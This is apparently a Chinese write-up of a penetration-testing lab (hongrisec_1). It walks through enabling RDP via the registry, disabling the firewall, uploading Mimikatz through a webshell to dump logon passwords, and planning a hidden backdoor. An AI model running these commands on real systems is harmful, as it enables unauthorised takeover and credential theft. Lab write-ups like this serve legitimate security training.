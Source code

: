 +++
title = 'Part5.远程开启3389端口，接管目标主机的控制权'
date = 2024-10-10T11:34:24+08:00
draft = true

categories = [ '渗透测试']

tags = ['hongrisec_1靶场']

weight = 106

+++

# Part5.远程开启3389端口，接管目标主机的控制权

### 使用蚁剑远程桌面控制对方主机的思路

首先，要远程控制目标主机，需要达成2个条件：

1. 目标主机需要开启3389端口
2. 拿到目标主机登录所需的账号密码

### 打开目标主机3389端口

使用命令查看该主机开放的端口

```shell
netstat -ano
```

发现目标主机本身没有开启3389端口

使用这条命令打开3389端口

```shell
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /Ff
```
![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409141630523.png)

3389端口打开成功

再用这条命令关闭主机防火墙![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409141632940.png)

查看防火墙状态 

```shell
netsh firewall show state
```
显示操作模式，禁用，表示防火墙已关闭

验证是否可以远程连接桌面
![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409141637270.png)
![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409141637032.png)
现在已经完成3389端口的打开，还差获取对方这个主机用户的密码

### 获取主机用户密码

利用Mimikatz去调取操作系统的less内存

github下载猕猴桃工具

![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409141730479.png)

再通过蚁剑上传到目标web服务器

![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409141731145.png)
接着在命令行中运行以下命令

```shell
mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords" "exit"
```
![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409141737721.png)

拿到关键信息：

用户名：god\Administrator
密码：hongrisec@2019
![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409141752844.png)
远程桌面登录成功，等同拿到该web服务器的最高控制权

### 接下来需要做到权限维持，也就是留后门
之前我们经过了信息收集，漏洞挖掘，跳过了提权获取到该主机的最高权限

现在，问题就在于如何维持这个权限，而不会被人发现木马而修复漏洞导致我们无法登录
